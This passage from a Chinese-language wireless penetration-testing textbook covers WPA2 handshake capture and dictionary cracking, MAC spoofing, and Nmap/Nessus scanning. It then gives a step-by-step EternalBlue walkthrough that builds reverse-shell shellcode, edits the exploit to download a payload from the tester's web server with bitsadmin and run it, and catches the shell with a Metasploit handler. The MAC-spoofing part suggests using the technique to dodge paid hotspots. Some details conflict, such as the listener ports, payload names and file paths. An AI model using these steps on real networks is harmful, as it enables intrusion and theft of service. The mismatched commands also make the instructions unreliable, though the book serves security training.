5.  我们可以等待新客户端连接到接入点以捕获四次 WPA2 握手，也可以通过发送广播解除认证数据包强制客户端重新加入。为了加快进度，我们采用后者。遇到未知通道错误时，也会发生同样的情况。再次使用 `--ignore-negative-one`。这可能需要多次尝试，如 *Figure 4.15* 所示：

    ```
    aireplay-ng --deauth 1 -a DC:EF:09:59:B1:1F wlan0 --ignore-negative-one
    ```

    

    **Figure 4.15:** aireplay-ng 命令

6.  当我们捕获到 WPA2 握手时，airodump-ng 程序会在屏幕右上角显示 WPA2 握手及接入点的 BSSID。如果你选择了 `– ignore-negative-one`，工具可能会发送固定通道消息，而不是显示 WPA2 握手。请留意短暂闪烁的 WPA2 握手提示。

7.  现在我们可以终止 airodump-ng 实用程序。让我们通过打开 cap 文件在 Wireshark 中查看四次握手。 *Figure 4.16* 展示了你的 Wireshark 终端应有的样子。在快照中，我们从跟踪文件中选择了四次握手的第一个数据包。握手数据包使用 EAPOL 协议，如 *Figure 4.16* 所示，握手不包含有助于恢复密钥的数据，但包含可用于检查密钥是否有效的数据。

    

    **Figure 4.16:** Wireshark

8.  现在，我们将开始真正的密钥破解！为此我们需要一份常用单词的词汇表。Kali 的 `Metasploit` 文件夹中包含许多字典文件，如 *Figure 4.17* 所示。必须记住，在 WPA2 破解方面，你的水平取决于你的字典。Kali 自带了一些字典，但它们可能还不够。人们的密码受多种因素影响。这包括用户的祖国、该地区流行的名字和短语、安全意识以及其他各种因素。渗透测试时，最好结合特定国家和地区的词表，如 *Figure 4.17* 所示：

    

    **Figure 4.17:** Metasploit

9.  如 *Figure 4.18* 所示，我们将使用 aircrack-ng 软件，以 `pcap` 文件作为输入，以字典文件链接作为输出。如终端所示，我使用了 `nmap.lst`：

    ```
    aircrack-ng wpacracking-05.cap -w /usr/share/wordlists/nmap.lst
    ```

    aircrack-ng 使用字典文件测试各种密码组合来破解密钥。如果密码在字典文件中，最终会被破解，你的屏幕将显示如 *Figure 4.18* 所示的内容：

    

    **Figure 4.18:** aircrack-ng 命令

10. 请记住，因为这是字典攻击，密码必须存在于你提交给 aircrack-ng 的字典文件中。如果字典中找不到密码，攻击将会失败！

我们将包含 WPA2 四次握手的捕获文件和一份常用密码短语列表（以词表形式）提供给 Aircrack-ng，因为 WPA2-PSK 容易受到字典攻击。由于密码 `abcdefgh` 包含在词表中，Aircrack-ng 可以破解 WPA2-PSK 共享密码。值得重申的是，在基于字典的 WPA2 破解中，你的水平取决于你拥有的字典。因此，首先编制一份庞大且详细的词汇表至关重要。尽管 Kali 自带自己的词汇表，但有时可能不够用，需要添加更多单词。

## 加速 WPA 和 WPA2 破解

正如我们在上一节所见，如果我们的字典中有正确的密码，破解 WPA2-Personal 易如反掌。那么，为什么我们不直接编译一个包含数百万常用密码和短语的巨大字典呢？这对我们极其有利，我们几乎总能成功破解密码。一切听起来都很美好，但缺少了一样东西：时间。通过 `PBKDF2` 使用 PSK 密码和 SSID 计算预共享密钥，是较为消耗 CPU 和时间的计算之一。在返回 256 位预共享密钥之前，该函数会对两者的组合进行 4,096 次以上的哈希运算。破解过程的下一阶段是使用该密钥，结合四次握手的参数，根据 `MIC` 验证握手。这是一个计算成本低廉的阶段。此外，握手的特性会随时间变化；因此，此阶段无法预先计算。因此，为了加快破解过程，我们必须尽可能快地从密码计算出预共享密钥。

预计算预共享密钥（在 802.11 标准术语中也称为 `Pairwise Master Key`，即 `PMK`，成对主密钥）有助于加快速度。值得注意的是，由于 SSID 也用于计算 `PMK`，如果我们使用相同的密码但不同的 SSID，将会得到不同的 `PMK`。因此，`PMK` 同时取决于密码和 SSID。

## 加速破解过程


我们可以继续执行以下操作：

1.  使用 `genpmk` 工具，我们可以提前为给定的 SSID 和字典计算 PMK：

    ```
    genpmk -f <chosen wordlist> -d PMK-Wireless-Lab -s “Wireless Lab”
    ```

    这将生成 `PMK-Wireless-Lab` 文件，其中包含 PMK，如 *图 4.19* 所示：

    

    **图 4.19：** genpmk 命令

2.  我们现在将使用密码 `abcdefgh`（存在于字典中）构建一个 WPA-PSK 网络，并捕获其 WPA 握手包。如随附的 *图 4.20* 所示，我们现在使用 `Cowpatty` 破解 WPA 密码：

    ```
    cowpatty -d PMK-Wireless-Lab -s “Wireless Lab” -r wpacracking-05.cap
    ```

    

    **图 4.20：** Cowpatty 命令

    `Cowpatty` 使用预计算的 PMK 在约 6 秒内破解密钥。

3.  使用相同的字典文件，我们现在运行 `aircrack-ng`，破解操作耗时近 22 分钟。这演示了预计算带来的巨大优势。

4.  我们需要使用一个名为 `airolib-ng` 的工具，以便在 `aircrack-ng` 中使用这些 PMK，具体如下：

    ```
    airolib-ng PMK-Aircrack --import cowpatty PMK-Wireless-Lab
    ```

    其中 `PMK-Aircrack` 是待构建的兼容 `aircrack-ng` 的数据库，而 `PMK-Wireless-Lab` 是之前创建的符合 `genpmk` 规范的 PMK 数据库。请参阅 *图 4.21*：

    

    **图 4.21：** airolib-ng 命令

5.  我们现在将此数据库提供给 `aircrack-ng`，这将显著加快破解过程。使用以下命令，如 *图 4.22* 所示：

    ```
    aircrack-ng -r PMK-Aircrack wpacracking-05.cap
    ```

    

    **图 4.22：** aircrack-ng 命令

6.  其他 Kali 工具（如 `Pyrit`）可以利用多处理器平台来加速破解。例如，Intel® CoreTM i7 CPU 可以执行更快的破解操作。`-r` 选项指定 `pcap` 文件名，而我指定符合 `genpmk` 规范的 PMK 文件。在与前面工具相同的系统上，使用相同的通过 `genpmk` 准备的 PMK 文件，`Pyrit` 大约只需 3 秒即可破解密钥。

**除了上述因素外，WPA/WPA2 PSK 的长度在破解过程中起着主要作用。破解较长的密码需要更长的时间。**

## MAC 地址欺骗

您可能知道 MAC 地址过滤并不完全安全。在我看来，它比 WEP 加密的效果差得多，因为它很容易被伪造。这并不是说 MAC 地址过滤没有用。它确实能过滤掉许多只对最薄弱环节网络感兴趣的攻击者。无论您做什么，**不要仅依赖 MAC 过滤！** WEP 加密总比没有加密要好。请参阅 *图 4.23* 了解 MAC 欺骗的示意图：


**图 4.23：** MAC 欺骗

这不需要高水平的技术。您只需监听无线网络流量，并将您的 MAC 地址更改为已连接用户的地址即可。借助自动化脚本或应用程序，更改 MAC 地址就像 1、2、3 一样简单。然后，让我们看看如何使用名为 `macchanger` 的应用程序来欺骗我们的 MAC 地址。

1.  打开终端。

2.  输入以下命令并按 *Enter* 键：

    ```
    ifconfig wlan0 down
    ```

    此命令禁用或关闭无线接口，如 *图 4.24* 所示：

    

    **图 4.24：** ifconfig wlan0 down 命令

3.  使用以下命令重新激活 `wlan0` 并按 *Enter* 键，如 *图 4.25* 所示：

    ```
    ifconfig wlan0 up
    ```

    

    **图 4.25：** ifconfig wlan0 up 命令

4.  输入以下命令并按 *Enter* 键：

    ```
    macchanger --random wlan0
    ```

    此命令为无线接口随机生成一个伪造的 MAC 地址，如 *图 4.26* 所示：

    

    **图 4.26：** macchanger 命令 _1

5.  输入以下命令并按 *Enter* 键：

    ```
    macchanger --mac=00:11:22:33:44:55 wlan0
    ```

    如显示的那样，此命令允许您在无线接口上伪造一个 MAC 地址，如 *图 4.27* 所示：

    

    **图 4.27：** macchanger 命令 _2

就这么简单！难道不简单吗？了解这一点可以帮助您避开那些需要长期付费的付费热点网络。这些网络常见于咖啡店、餐厅、机场和酒店。当用户付费后，其 MAC 地址会被添加到允许访问互联网的 MAC 地址列表中。

## 防范无线攻击

我们必须时刻了解如何防御此类威胁和攻击。

接下来，我们将介绍防范这些攻击的方法：

*   更强大的加密可降低遭受攻击的可能性。
*   MAC 过滤也有助于降低遭受攻击的几率。
*   如果您的设备不兼容 WPA/WPA2，可以改用 WEP；但不建议这样做，因为它不安全。
*   创建单独的 VLAN 以限制对企业网络的访问。
*   应禁用或关闭 WPS 设置。
*   设置强且复杂的密码。
*   每三到四个月更换一次密码。
*   仅在万不得已时才使用制造商的默认密码。
*   使用 EAP 代替 PSK。
*   更改默认的 SSID 名称。

## 结论

在本章中，我们制定了一份进攻计划。随后，我们概述了多种攻击方法。然后我们详细讲解了 WEP、WPA 和 WPA2 加密。最后，我们概述了一些降低无线攻击可能性的策略。

在接下来的章节中，我们将探讨如何识别无线网络上的主机，确定其规模，并发现其中易受攻击的设备和系统。让我们开始吧！

## 问题

1.  解释 WEP 加密？
2.  如何破解 WEP 加密？
3.  解释 WPA/WPA2 加密？
4.  如何破解 WPA/WPA2 加密？
5.  如何防范无线攻击？

# 第 5 章

# 获取无线网络访问权限

## 简介

我们来到了第 5 章！在本章中，我们将涵盖作为无线渗透测试员获取网络访问权限相关的各种主题。我们将进行网络评估以识别主机、计算网络规模并识别易受攻击的主机。在进行渗透测试时，了解网络上有多少主机是个好主意，因为您不想遗漏任何内容。让我们先谈谈为什么这如此重要。

## 结构

在本章中，我们将讨论以下主题：

*   识别主机
*   确定网络规模
*   检测易受攻击的主机
*   防范威胁

#### 目标

在本章中，您将了解在对网络进行渗透测试时，查找存活主机数量的重要性。接下来，您将使用 Kali Linux 识别网络上的主机。然后，您将确定网络规模，并解释作为渗透测试员理解这一点的重要性。最后，您将能够使用 `Nessus` 漏洞扫描器检测 Windows 7 中的漏洞，并且还能够使用多种有助于降低风险的预防措施。


我们需要知道网络中是否有运行 Windows 7 的客户端。用户明白他们处于危险之中，因为他们运行的是过时版本的 Windows。几分钟内，Windows 7 就可能被黑客攻破！Microsoft 于 2020 年 1 月停止支持 Windows 7。由于 Windows 7 不再维护，攻击者将蜂拥而至，试图在这一版本的操作系统中寻找漏洞。原因在于 Microsoft 将不再提供安全补丁，这意味着一旦攻击者发现系统漏洞，该漏洞将无限期地处于易受攻击状态。

我们将使用各种网络工具来弄清网络上有多少主机、它们运行什么操作系统、网络规模有多大，以及哪些主机存在漏洞。了解网络中哪些部分易受攻击，然后应用安全补丁或升级，将有助于提高安全性。请记住，不仅贵公司的系统和设备脆弱，员工也是！

这无疑是人们可能遇到的最严重的安全威胁之一。您的员工应该接受安全意识培训，了解利弊以及该做什么和不该做什么。您可能还有员工为了经济利益在工作场所外共享消费者信息。请留意任何可能危及公司运营的异常行为。

## 识别主机

本节介绍可用于识别网络上主机的各种工具。这些程序将提供用户的 IP 地址、MAC 地址、开放和关闭的端口、服务、操作系统及其他详细信息。以下各节列出了可用于识别网络主机的 Kali Linux 工具。

### 网络映射工具

我们将重点关注 `Nmap` 的命令行界面。以下是一些可供考虑的替代网络映射工具：

*   `0trace`
*   `Angry IP scanner`
*   `hping2` 和 `hping3`
*   `lanmap` 和 `lanmap2`
*   `TCP traceroute`

在本教程中，您将学习如何使用 `Nmap` 识别网络上的主机。当涉及到网络发现，或确定诸如 `Telnet`、`SSH` 或 `FTP` 之类的网络服务是否正在运行时，这些工具绝对是我的最爱。让我们开始吧！

1.  打开终端。
2.  输入以下命令后按 `Enter`：
    ```
    ifconfig
    ```
    在此例中，如**图 5.1**所示，我们的私有 IP 地址是 `192.168.1.128`。因为我们的网关是 `192.168.1.1`，接下来我们将看到如何扫描整个子网。
    
    **图 5.1：** ifconfig 命令
3.  输入以下命令后按 `Enter`：
    ```
    nmap 192.168.X.0/24
    ```
    此命令对 `192.168.1.1` 到 `192.168.1.254` 范围内的所有主机发起一次 ping 扫描。您将在输出中注意到一些有趣的信息，例如开放和关闭的端口、服务以及它们正在使用的操作系统。
    如**图 5.2**所示，我们可以检测到本地网络上的多个系统和设备：
    
    **图 5.2：** nmap 命令
4.  如果您的网络上安装了防火墙，请运行以下命令：
    ```
    nmap -PN 192.168.X.0/24
    ```
    所有主机将被视为在线状态，并跳过主机发现。它用于绕过标准防火墙过滤器，以查看防火墙是否正常运行，如**图 5.3**所示：
    
    **图 5.3：** nmap 命令 _2

### 确定网络规模

弄清网络有多大并不难。如果您已有一些网络经验，会容易得多。让我们演示几个步骤来确定网络规模以及我们有多少主机。

#### 使用 Kali Linux 确定网络规模

在本教程中，我们将在 Kali Linux 中确定网络规模。为此，请遵循以下步骤：

1.  打开终端。
2.  输入以下命令后按 `Enter`：
    ```
    ifconfig | grep mask
    ```
    **图 5.4** 是输出结果：
    
    **图 5.4：** ifconfig 命令 _2

您需要向上和向下滚动以查看您的网络配置。在**图 5.4**中，子网掩码是 `255.255.255.0`。如果我们做一些子网划分计算，可以推断出该网络可能拥有 1 到 254 个主机。

您可能会想，确定网络规模与渗透测试有什么关系？通过确定网络规模，渗透测试人员可以估算网络上的主机数量。当数据中心或大学校园中的网络数量已知时，这可以使渗透测试变得更容易。

### 检测易受攻击的主机

本节不言自明。如果您认识某人不每天更新他们的系统，他们肯定容易受到最新安全风险的威胁。截至目前，Windows 7 极其不安全，特别是如果用户未安装任何更新或服务包。让我们在即将到来的示例中看看 Windows 7 中的一个漏洞。

请看以下步骤：

1.  扫描目标正在使用的服务，如**图 5.5**所示：
    
    **图 5.5：** nmap 命令 _3
    此命令可进行操作系统检测、版本检测、脚本扫描和路由追踪。
2.  使用 `Nessus` 扫描漏洞。（如果您是第一次运行 `Nessus`，请注意您需要先注册 `Nessus`。）
3.  我们在下方提供了要扫描的主机 IP 地址，如**图 5.6**所示：
    
    **图 5.6：** Nessus_1
4.  我们现在准备好点击“启动”以开始 `Nessus` 扫描，如**图 5.7**所示：
    
    **图 5.7：** Nessus_2
5.  扫描完成后，我们必须检查报告，如**图 5.8**所示：
    
    **图 5.8：** Nessus_3
6.  正如您从调查结果中看到的，有各种服务存在漏洞，如**图 5.9**所示：
    
    **图 5.9：** Nessus_4
    当您选择其中一个并查看插件名称时，您将看到 `MS17-010`。我们稍后将使用它来定位我们的漏洞利用代码。
7.  让我们开始寻找漏洞利用代码。使用以下命令启动一个新的 `Metasploit` 控制台，并参考**图 5.10**：
    ```
    msfconsole
    ```
    
    **图 5.10：** msfconsole 命令
    您可以在 <https://www.rapid7.com/products/metasploit/download.jsp> 获取 `Metasploit Framework`。H. D. Moore 于 2003 年创建了 `Metasploit Framework`，作为一个开源攻击框架。它用于闯入系统和设备以进行测试。它包含供渗透测试人员、IDS 签名开发人员和漏洞利用研究人员参考的信息。
8.  在搜索引擎中输入以下内容以查找我们的漏洞利用代码：
    ```
    search ms17
    ```
    结果如**图 5.11**所示：
    
    **图 5.11：** msfconsole 命令 _2
9.  完成以下命令：
    *   `use exploit/windows/smb/ms17_010_eternalblue`：此命令设置 `Metasploit Framework` 使用漏洞利用模块 `ms17_010_eternalblue`
    *   `set RHOST 192.168.1.129`：此命令将远程主机设置为您要攻击的目标用户。
    *   `set PAYLOAD windows/x64/meterpreter/reverse_tcp`：此命令将载荷设置为 `reverse_tcp`，以便在漏洞利用成功后我们能连回目标主机。


### 步骤 10：使用不同的 Payload

使用命令 `show payloads` 查看可用的 Payload。

之前输入命令的输出如图 5.12 所示：


**图 5.12：** msfconsole command_3

不幸的是，该漏洞利用无法正确运行，因为它仅支持 ×64 目标，而我们的目标是 ×86。现在，我们将使用另一个工具来利用目标，例如 **searchsploit** 工具，如图 5.13 所示：


**图 5.13：** searchsploit command

### 步骤 11：搜索 MS17-010 漏洞利用代码

输入以下命令，参考图 5.14：

```
searchsploit ms17-010
```


**图 5.14：** searchsploit command_2

### 步骤 12：复制漏洞利用代码

在继续之前，我们应该复制此文件以便访问原始源代码。为简单起见，我们可以将其重命名为 `exploit.py`，如图 5.15 所示。输入以下命令获取漏洞利用代码的完整路径：

```
searchsploit -p windows/remote/42031.py
```

然后，输入以下命令复制漏洞利用代码：

```
cp /usr/share/exploitdb/exploits/windows/remote/42031.py exploit.py
```


**图 5.15：** Copy command

### 步骤 13：检查支持的目标

我们现在可以编辑 Python 文件并检查支持的目标，如图 5.16 所示：


**图 5.16：** Exploit file

### 步骤 14：运行漏洞利用代码并安装依赖

现在，我们可以尝试运行漏洞利用代码，如图 5.17 所示：


**图 5.17：** exploit output

出现错误（no module named `impacket`），这意味着 `impacket` 包未安装。因此，我们将运行以下命令来修复此错误，如图 5.18 所示：

```
sudo python2 -m pip install impacket
```


**图 5.18：** Install impacket module

### 步骤 15：生成 Shellcode 并配置参数

现在，我们可以尝试再次运行漏洞利用代码，如图 5.19 所示：


**图 5.19：** Run exploit.py

漏洞利用代码似乎可以正常工作，但它需要目标 IP、`shellcode_file` 和 `numGroomConn` 参数。其中目标 IP 为 `192.168.1.129`，我们可以使用 `msfvenom` 工具创建 `shellcode_file`，如图 5.20 所示：

```
msfvenom -a x86 --platform windows -p windows/shell/reverse_shell LHOST=192.168.1.128 LPORT=4444 > shellcode
```


**图 5.20：** msfvenom command

`numGroomConn` 是一个可选参数，默认值为 13。它用于 `EternalBlue` 漏洞利用脚本的缓冲区溢出攻击。如果漏洞利用失败但目标未崩溃，请尝试增加 `numGroomConn` 的值。

### 步骤 16：尝试运行漏洞利用代码

目前，我们可以尝试使用给定的参数运行漏洞利用代码，如图 5.21 所示：


**图 5.21：** Exploit output

尽管脚本最终未能成功运行，但调试方法具有指导意义。现在，我们将返回步骤 11 并选择另一个漏洞利用代码，例如 `42315.py` 来尝试。

### 步骤 17：准备新的漏洞利用代码

重复步骤 12。现在，我们可以打开漏洞利用代码并输入目标的有效用户名和密码，如图 5.22 所示：


**图 5.22：** Exploit file

### 步骤 18：运行漏洞利用代码并安装 mysmb

现在，我们可以尝试运行漏洞利用代码，如图 5.23 所示：


**图 5.23：** Run exploit file

出现错误（No module named `mysmb`），这意味着 `mysmb` 包未安装。因此，我们将运行以下命令来修复此错误（见图 5.24）：

```
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```


**图 5.24：** Install mysmb module

### 步骤 19：再次运行漏洞利用代码

再次尝试运行文件，我们得到不同的输出，如图 5.25 所示：


**图 5.25：** Run exploit file

现在看起来像是用法信息，这是一个好迹象。我们需要插入目标的 IP 地址和管道名称作为参数。

### 步骤 20：查找命名管道

命名管道是运行进程相互通信的一种低开销技术。管道通常作为文件呈现，其他进程可以附加到这些文件。Metasploit 中的扫描器将检测主机上的任何命名管道。要打开一个新终端，输入 `msfconsole` 然后搜索扫描器，如图 5.26 所示：

```
msfconsole
search pipe
```


**图 5.26：** msfconsole command

我们需要的是 `pipe_auditor`。使用 `use` 命令加载模块。

```
use auxiliary/scanner/smb/pipe_auditor
```

你应该会看到 `auxiliary(scanner/smb/pipe_auditor) > options` 提示符。现在，我们可以查看选项，如图 5.27 所示：


**图 5.27：** msfconsole command_2

我们真正需要做的就是指定目标的 IP 地址（`192.168.1.129`），见图 5.28：


**图 5.28：** msfconsole command_3

看起来未找到命名管道。

### 步骤 21：运行漏洞利用代码并准备 Payload

运行漏洞利用文件。此时我们应该能够启动漏洞利用文件。使用目标的 IP 地址，如图 5.29 所示：


**图 5.29：** Exploit output

漏洞利用成功！我们不知道文件是否已生成，因为它在系统上而不是在 SMB 共享上。因此，我们将需要修改漏洞利用代码。我们必须首先构建一个 `shell.exe` 文件，如图 5.30 所示：


**图 5.30：** msfvenom command

现在，我们可以启动 Apache 服务器，以便漏洞利用代码可以从目标连接到我们的机器以获取 Payload。接下来，我们将调整代码以满足我们的需求。

```
sudo systemctl start apache2
```

### 步骤 22：修改代码

回到 `exploit.py`，找到底部附近的代码段，如图 5.31 所示：


**图 5.31：** Modify exploit file

在这里，我们可以看到负责连接到目标并创建文本文件的代码。我们还可以看到一个有趣的函数 `service_exec()` 被注释掉了。该函数将连接到目标并发出命令，将先前创建的文本文件复制到 C 盘上名为 `pwned_exec.txt` 的新文本文件中。我们可以使用此函数来获取我们的 Payload 并在目标上执行它。

首先，取消注释该函数，并将 `cmd /c` 之后的所有内容替换为以下命令：

```
bitsadmin /transfer pwn /download http://192.168.1.128/sc.exe C:\sc.exe
```

**Background Intelligent Transfer Service**（**BITSAdmin**）是一个 Windows 命令行工具，用于上传或下载文件。`/transfer` 开关初始化传输（本例中名称为 `pwn`），`/download` 指定这是一个下载。然后，我们输入远程文件名（托管在我们的机器上）和传输后的本地文件名。

接下来，添加另一个 `service_exec()` 函数并让它执行我们刚刚传输的文件。代码将如下所示：

```
service_exec(conn, r’cmd /c /sc.exe’)
```


最后，我们可以注释掉创建文本文件的代码段，因为我们不再需要它了。最终代码应如*图 5.32*所示：


**图 5.32：** 修改代码后的最终漏洞利用文件

现在，剩下要做的就是运行漏洞利用程序。

## 运行完成的漏洞利用程序

要完成漏洞利用，我们需要一个监听器来在载荷执行后接收 Shell。我们可以使用 Metasploit 中的多功能处理程序来实现这一点。在一个新的终端中，使用以下命令：

```
msfconsole
use exploit/multi/handler
```

你应该会看到 `exploit(multi/handler)` 提示符。我们只需将载荷设置为与我们之前创建 Shellcode 时指定的内容相匹配，在本例中是一个反向 TCP Shell。

```
set payload windows/shell/reverse_tcp
```

接下来，设置适当的监听主机：

```
set lhost 192.168.1.128
```

以及监听端口：

```
set lport 9001
```

然后我们可以启动处理程序：

```
Run
```

我们之前输入的命令输出可以在*图 5.33*中看到：


**图 5.33：** msfconsole 命令

它将监听任何传入的连接，如果一切顺利，一旦我们的漏洞利用完成，我们将获得一个 Meterpreter 会话。

最后，一切应该都已就绪。我们可以像之前测试运行时那样，从漏洞利用目录中启动漏洞利用程序，如*图 5.34*所示：

```
python exploit.py 192.168.1.129
```


**图 5.34：** 运行漏洞利用程序

这一次我们应该会看到不同的结果。忽略错误信息，如果第一次不成功，请再试一次。一旦漏洞利用成功完成，我们应该会在监听器上看到一个会话打开，如*图 5.35*所示：


**图 5.35：** msfconsole 输出

我们可以使用 `whoami` 命令验证是否已攻陷目标，如*图 5.36*所示：


**图 5.36：** whoami 命令输出

恭喜！通过无线网络，我们成功检测并利用了一个易受攻击的主机。

## 防范威胁

我们必须时刻了解如何防御这些威胁和攻击。之后，我们将介绍如何防御这些攻击。

### 主机识别防范

中小型企业应部署硬件防火墙，如 WatchGuard XTM、Cisco ASA，或下一代防火墙，如 FortiGate、Palo Alto 和 Checkpoint，并配置自定义规则以阻止未使用的服务和端口，从而保护自己免受威胁和危险。为防止未经授权的访问，应在服务器或网络设备上禁用未使用的服务。部署具备短信或电子邮件告警功能的入侵检测系统。应记录协议日志，并由防火墙标记告警。

如果防火墙或 IDS 未被监控，你如何知道你的组织是否已被入侵？如果你想在威胁和问题面前保持领先，每天监控网络至关重要。可以使用 VLAN 来隔离网络。为了防止网络病毒和攻陷，每台服务器、工作站、VoIP 设备和无线设备都应拥有自己的 VLAN。

### 防止他人确定你的网络规模

在评估网络规模时，任何敏感信息（包括网络拓扑图、密码、日志、工作站和服务器信息以及配置设置）都应始终加密。中小型企业可以使用硬件防火墙，如 WatchGuard XTM 或 Cisco ASA，通过阻止 ICMP 并仅允许来自可信来源的流量来控制流量。

### 易受攻击主机的防护

安装供应商提供的最新安全更新，以保护计算机和网络设备免遭利用。当新的操作系统和软件更新可用时，及时安装。如果升级过程中遇到问题，请联系软件供应商。使用最安全的 Wi-Fi 加密标准 WPA2 或 WPA3，它们采用 AES 加密技术和长密码。在所有工作站和服务器上运行具有最新病毒定义库的实时防病毒扫描器。员工应接受安全意识培训。

## 总结

哇！在本章中，我们完成了三个演示！本章非常有趣，也相当精彩。让我们回顾一下你迄今为止学到的内容。

在本章中，我们探讨了为什么在执行网络渗透测试时确定存活主机数量至关重要。之后，我们使用 Kali Linux 检测网络上的主机。然后，作为一名渗透测试员，我们演示了如何确定网络规模以及为什么了解这一点很重要。我们通过演示如何使用 Nessus 漏洞扫描器发现 Windows 7 中的漏洞，以及列出可能的缓解措施，结束了本章。

在下一章中，我们将介绍如何组织漏洞评估、配置 Nessus 漏洞扫描器、运行扫描器以及修补漏洞。现在让我们开始下一章的学习吧！

## 问题

1.  列举最著名的网络拓扑绘制工具。

2.  我们如何确定网络规模？

3.  我们如何详细检测网络中的易受攻击主机？

4.  有哪些防范方法可以保护我们免受攻击？

# 第 6 章

# 无线漏洞评估

## 简介

在上一章中，我们讨论了如何进入网络并发现其中有谁。在本章中，我们将探讨漏洞评估，这引出了一个问题：究竟什么是漏洞评估？

漏洞评估，也称为漏洞分析，是安全专业人员发现、识别和分类计算机系统、网络或其他电子基础设施中潜在安全漏洞（漏洞）的过程。漏洞评估也可用于评估威胁并提出适当的对策。在进行漏洞评估时，大多数安全专家遵循循序渐进的程序。以下是典型的漏洞评估流程：

*   识别和分类计算机系统和网络
*   列出最关键的服务清单
*   识别每项服务可能面临的安全威胁
*   制定防御策略以应对潜在威胁
*   寻找措施以在遭受攻击时将风险降至最低

如果个人或组织发现漏洞，他们有责任通知供应商。零日漏洞是指在未通知供应商的情况下被发现的高级别威胁漏洞。当开发者未解决或修补漏洞时，零日攻击就会盛行。当供应商的设备或软件不再受支持时，这种情况众所周知。

如果威胁较小，供应商很可能会等到下一次更新发布补修。这完全取决于威胁的性质及其能力。允许远程执行代码，或更糟的是，未经授权获取 root 或管理员权限的漏洞应尽快修补；但这并不总是如此。这取决于供应商如何处理此类情况。组织可能无力承担修补成本。


## 漏洞评估

漏洞评估通常由白帽黑客或受过训练的道德黑客执行；然而，黑帽黑客偶尔也会将其用于恶意目的。他们可以执行漏洞评估，以了解更多关于他们可以通过他人的网络访问什么内容。安全专家可以利用这些方法访问漏洞，从而发现差距并提供建议和对策以防止攻击。

## 结构

在本章中，我们将讨论以下主题：

*   规划评估
*   设置漏洞扫描器
*   运行漏洞扫描器
*   运行 Nessus
*   生成报告
*   解决漏洞

#### 目标

在本章中，您将能够规划评估，了解评估的关键组成部分，以及评估的分步流程。您将能够安装 Nessus、注册它、下载插件，然后运行 Nessus。您将能够创建新策略和扫描、识别漏洞、阅读漏洞详情，并针对漏洞采取解决方案。

### 规划评估

在执行评估之前，我们需要先规划评估。我们首先要问自己一系列关于评估的问题。让我们开始吧！

#### 我们将如何花费时间和资源？

如果您要为个人或公司进行评估，您将需要估算完成任务需要多长时间。提前了解您将使用什么来完成评估也是个好主意。

#### 您是否有足够的支持证据来证明您的发现？

在整个漏洞评估过程中，最好再次确认您是否拥有足够的数据来涵盖您所做的任何发现。当您开始生成报告时，您需要知道每个漏洞是什么以及它是如何运作的。提供概念验证也是个好主意。

#### 当检测并识别出漏洞时，解决该问题的最佳方式是什么？

这是一个难以回答的问题，因为它取决于威胁的严重程度。最常见的做法是确保您拥有最新更新、升级软件、关闭任何未使用的后台服务，并添加任何额外的安全功能，如复杂密码和双因素认证。通知供应商该漏洞。

#### 我们如何提高检测率并将安全威胁降至最低？

具有 IDS 和 IPS 监控功能的商用硬件防火墙——能够即时检测攻击的主动扫描器。在其硬件防火墙和统一威胁管理系统中，WatchGuard 提供了出色的安全模块，如数据包过滤、入侵防御服务、应用控制、Web 拦截器、网关防病毒、垃圾邮件拦截器等。为将风险降至最低，请确保您的软件和硬件始终保持最新。

进行良好的评估需要一个客观且合乎逻辑的计划。

### 漏洞评估计划的组成部分

我们将介绍漏洞评估策略的几个关键要素。例如，请考虑以下内容：

#### 主要目标

*   该目标如何处理？
*   如何访问该目标？
*   谁参与评估？
*   供应商端有哪些补丁可用？
*   识别常见漏洞
*   总结

#### 首要目标

*   识别问题

#### 次要目标

*   提供临时或永久的解决方案

#### 第三、第四目标等

*   视情况而定，可能需要额外的目标。

### 规划漏洞评估流程

在本节中，我们将通过一个示例来了解如何规划漏洞评估：

#### 目标

*   是否有可用的开放网络？如果有，它们用于什么？

#### 标准

*   该目标的优先级是什么？

#### 策略

*   如果网络上有未经授权的用户，他们会对工作站或服务器造成损害吗？
*   他们是否在单独的 VLAN 或子网上？

#### 方法

*   我们可以做些什么来达到目标？

#### 时间

*   有截止日期吗？
*   何时可以提供解决方案？

#### 结果

*   谁需要知道结果？
*   我们如何防止未来未经授权的用户访问？

这应该能让您很好地理解如何设计自己的漏洞分析。在为个人或企业提供服务时，请将其作为指南。之后，我们将设置漏洞扫描器。我们将要了解的漏洞扫描器是 Nessus。

在开始设置漏洞扫描器之前，了解什么是漏洞扫描器以及它为何如此重要至关重要。漏洞扫描器正如其名。它是一种程序或软件安全工具，用于查找计算机、设备和网络中的缺陷。在大多数情况下，它会立即通知您面临的是低、中还是严重的安全危险。从安全专家的角度来看，这对于进一步分析什么可能威胁个人或公司非常有用。

如果黑帽黑客利用该工具并利用给定的漏洞，他们可能会迅速获得对机密信息或公司数据的未经授权访问。在企业网络上，防范漏洞扫描器的唯一方法是将每个部门划分到不同的 VLAN 中，实施强组策略以防止不受信任的可执行文件和安装，限制闪存驱动器的使用，并提供任何形式的保护以防止运行未经授权的程序。员工应仅运行有助于完成其任务的产品；通过启用 URL 拦截器并添加安全功能，网站可以迅速切断这些用户。

了解什么是漏洞扫描器至关重要。因为如果硬件防火墙有一个本不该开启的服务或端口处于开启状态，该工具在确定什么可能是您系统甚至整个网络的后门方面可能非常有用。防火墙和路由器的默认设置很棒，因为它们开箱即用，对吧？错！关闭任何未使用的服务并阻止任何未使用的端口（如 `FTP`、`RDP`、`SSH` 和 `Telnet`）至关重要。

在 Kali Linux 中，我们将使用 Nessus 漏洞扫描器。Nessus 是由 Tenable Network Security 创建的专有综合漏洞扫描器。他们出售个人版和商业版软件许可证。对于演示，我们将使用个人版。

Nessus 是最广泛使用的漏洞扫描器之一。目前全球有超过 80,000 个组织在使用它。Nessus 是一种自动检测已知安全缺陷的工具。Nessus 最好的功能之一是它既可以作为客户端也可以作为服务器使用。它可以联网，允许从任何位置执行扫描。支持 Microsoft Windows、Mac OS X、Linux、FreeBSD、Solaris 和 IBM/AIX。对于渗透测试人员来说，报告功能非常有用。

Nessus 将检测以下内容：

*   提供远程访问的漏洞
*   对系统上敏感数据的访问
*   配置错误的系统（缺失安全补丁、开放端口等）
*   常用密码、默认密码和空密码
*   通过畸形数据包实施的拒绝服务攻击
*   PCI DSS 审计


它不仅能发现缺陷，还能提供漏洞信息和危险严重程度。它包含指向更多信息的链接，如果有可用的安全补丁，还提供补丁下载链接，以帮助提供额外的安全层。

## 设置漏洞扫描器

